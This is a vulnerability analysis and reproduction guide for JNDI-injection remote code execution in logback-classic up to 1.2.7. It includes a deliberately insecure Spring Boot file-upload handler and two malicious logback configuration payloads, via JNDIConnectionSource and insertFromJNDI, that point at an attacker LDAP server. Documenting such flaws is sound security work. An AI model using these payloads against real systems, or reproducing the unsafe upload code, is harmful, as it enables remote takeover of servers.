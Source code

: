 ##  Affected version

logback-classic <=1.2.7

##  Environment

 SpringBoot 2.6.1 

 JDK8u111(Please note the available versions of JNDI)

##  Project address

https://github.com/cn-panda/logbackRceDemo

The project is a simple vulnerability demo environment  in springboot, The key function is **upload**:

```java
public String upload(@RequestParam("file") MultipartFile file) {  
    if (file.isEmpty()) {  
        return "Upload failed, please select a file！！";  
    }  
  
    String fileName = file.getOriginalFilename();  
    String filePath = Thread.currentThread().getContextClassLoader().getResource("").getPath();;  
    System.out.println(filePath);  
    File dest = new File(filePath,fileName);  
    try {  
        file.transferTo(dest);  
        LOGGER.info("Upload succeeded!!");  
        return "Upload succeeded!!";  
    } catch (IOException e) {  
        LOGGER.error(e.toString(), e);  
    }  
    return "Upload failed!!";  
}
```

The main function of this method is to upload files.

The configuration file of logback in the project is as follows:

![[../image/Pasted image 20211214164218.png]]

The key point is the `scan` attribute, which is used by logback to periodically scan the configuration file for changes.

If the configuration file is detected to change, it will update and load the configuration file in real time.

In this project, I deliberately wrote a vulnerability environment with arbitrary file uploads, and then used the `scan` attribute in the loghack configuration file to cooperate with the logback vulnerability to implement RCE

# Vulnerability analysis

## JNDIConnectionSource

在 logback 中同样类似于log4j1.x 中  JDBCAppender 的 Appender —— **DBAppender**，DBAppender 中有一个名为`ConnectionSource`的接口

In logback, it is also similar to the Appender of JDBCAppender in log4j1.x —— that is **DBAppender**

There is an interface called `ConnectionSource` in DBAppender.

This interface provides a pluggable way to obtain a JDBC connection using the logback class of `java.sql.Connection`

There are currently three implementation classes: `DriverManagerConnectionSource`, `DataSourceConnectionSource` and `JNDIConnectionSource`.

Each of these three implementation classes can be used to achieve RCE.

But unlike the other two implementation classes, the way `JNDIConnectionSource` implements RCE is more convenient, because it can implement RCE without relying on other component-dependent gadgets, and only rely on the mechanism provided by the application (JNDI), but ` DriverManagerConnectionSource` and `DataSourceConnectionSource` must rely on JDBC deserialization vulnerabilities to be able to implement RCE. The restrictions are relatively large, so I will not demonstrate here.

**JNDIConnectionSource** is logback's own method, as you can see from the name, it obtains `javax.sql.DataSource` through JNDI, and then obtains `java.sql.Connection instance`

In fact, you can find out by observing the code of the `getConnection` method in `JNDIConnectionSource.java`:

![[../image/Pasted image 20211214155414.png]]

If dataSource is empty, then let `dataSource = lookupDataSource();`

Then trigger `lookup` in **lookupDataSource()**:

![[../image/Pasted image 20211214155302.png]]

#### Vulnerability recurrence

First download the reproduced source code, and then run the main function of the `RceDemoApplication` project:

![[../image/Pasted image 20211214160245.png]]

Then open the browser and type in the address bar: `http://localhost:8080`, you can visit the project homepage

![[../image/Pasted image 20211214160704.png]]

This means that your vulnerability environment has been built.

Then create a configuration file of `logback-spring.xml` locally, the content of the file is as follows:

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">  
　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">  
    　　　　　 <encoder>  
    　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>  
    　　　　　 </encoder>  
    　　　</appender>  
    <appender name="DB" class="ch.qos.logback.classic.db.DBAppender">  
        <connectionSource class="ch.qos.logback.core.db.JNDIConnectionSource">  
            <jndiLocation>ldap://127.0.0.1:1389/erqtcd</jndiLocation>  
        </connectionSource>  
    </appender>  
  
    　　　<root level="DEBUG">  
    　　　　　　<appender-ref ref="STDOUT" />  
    　　　</root>  
</configuration>
```

Then visit `http://localhost:8080/upload.html`, select the file and click the upload button, use BurpSuite to capture the package, you can see that the file is uploaded successfully:

![[../image/Pasted image 20211214163728.png]]

After waiting ten seconds, RCE can be executed successfully

![[../image/Pasted image 20211214164425.png]]

## insertFromJNDI

In addition to `JNDIConnectionSource`, there is actually another configuration that can implement JNDI injection——**insertFromJNDI**

`<insertFromJNDI>` is the configuration tag of logback, which is used to set the range of attributes. It supports obtaining attribute values through JNDI. Similarly, if you modify the content of the `<insertFromJNDI>` tag, you can also achieve JNDI injection

When the `<insertFromJNDI>` tag is used, it means that the `begin` method in the `InsertFromJNDIAction.java` file will be called, and the `JNDIUtil.lookup` method will be used , thereby triggering the vulnerability:

![[../image/Pasted image 20211214170343.png]]

### Vulnerability recurrence

The reproduction steps are roughly the same as in #JNDIConnectionSource, except that the payload used in the uploaded file needs to be changed, as follows:

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">
　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
    　　　　　 <encoder>
    　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>
    　　　　　 </encoder>
    　　　</appender>
    <insertFromJNDI env-entry-name="ldap://127.0.0.1:1389/erqtcd" as="appName" />  

　　　<root level="DEBUG">
    　　　　　　<appender-ref ref="STDOUT" />
    　　　</root>
</configuration>
```

Upload the configuration file:

![[../image/Pasted image 20211214170840.png]]

Similarly, after waiting for 10 seconds, RCE can be triggered:

![[../image/Pasted image 20211214171037.png]]

# Summarize

In general, the triggering method of this vulnerability is still relatively difficult, unless the following conditions can be met:

1. The configuration file of logback can be modified or overwritten
2. Able to make the modified configuration file take effect

